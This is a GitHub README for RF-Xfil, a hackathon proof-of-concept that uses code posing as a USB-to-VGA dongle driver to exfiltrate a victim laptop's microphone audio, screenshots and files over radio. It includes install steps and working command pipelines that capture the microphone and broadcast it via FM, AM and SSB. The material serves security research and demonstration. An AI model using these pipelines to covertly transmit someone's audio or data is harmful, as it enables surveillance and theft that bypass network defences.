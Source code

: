 # RF-Xfil | Prototype Toolkit for Data Exfiltration over Radio Frequencies
## Started by Jie Feng, Ragul & Andre Dec 2018 @ HackSmith v2.0

![HackSmith v2 Award](misc/HackSmith_Award.jpg)

Imagine your dongle (of which many modern devices depend on) is exfiltrating information over RF! Thats exactly the Proof-Of-Concept we managed to showcase at HackSmith v2 over the 8-9 Dec 2018 weekend.

By writing "simulated malicious" code masquerading as the device driver for a inexpensive off the shelf USB-to-VGA dongle based off the infamous Fresco Logic FL2000 chipset, we were able to exfiltrate not only the audio from the victim laptop's microphone and SSTV of a screenshot, but also built modulation (inspired by fax and work done by romanz/amodem) robust enough to transfer screenshots and any arbitary files.

Demodulation code to be used with generic inexpensive RTL-SDRs is also in here.

We feel that more people should take an active interest in & do research into electronics & RF.

Lets see what other overpowered embedded devices can be used to do mindblowing things.


### Dependencies
osmo-fl2k
CSDR
Liquid DSP


### Installation

1. Install Dependencies required
Example: ubuntu
```
sudo apt install build-essential cmake pkg-config libfftw3-dev libusb-1.0-0-dev automake
```
2. run autoinstall.sh
```
./autoinstall.sh
```

### Usage

figure out your microphone
```
pacmd list-sources | grep alsa_input
        name: <alsa_input.pci-0000_00_1f.3.analog-stereo>
```

figure out your sound output
```
pacmd list-sources | grep name | grep monitor
        name: <alsa_output.pci-0000_00_1f.3.analog-stereo.monitor>
```

Transmitting audio:
Replace the '-d' with the one appriopriate to your purposes
WBFM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | pv -B 256k | fl2k_fm - -s 130e6 -c 40e6 -i 44100
```
AM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr add_dcoffset_cc | csdr convert_f_i16 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

SSB(USB):
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr bandpass_fir_fft_cc 0 0.1 0.01 | csdr gain_ff 2 | csdr shift_addition_cc 0.2 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

\
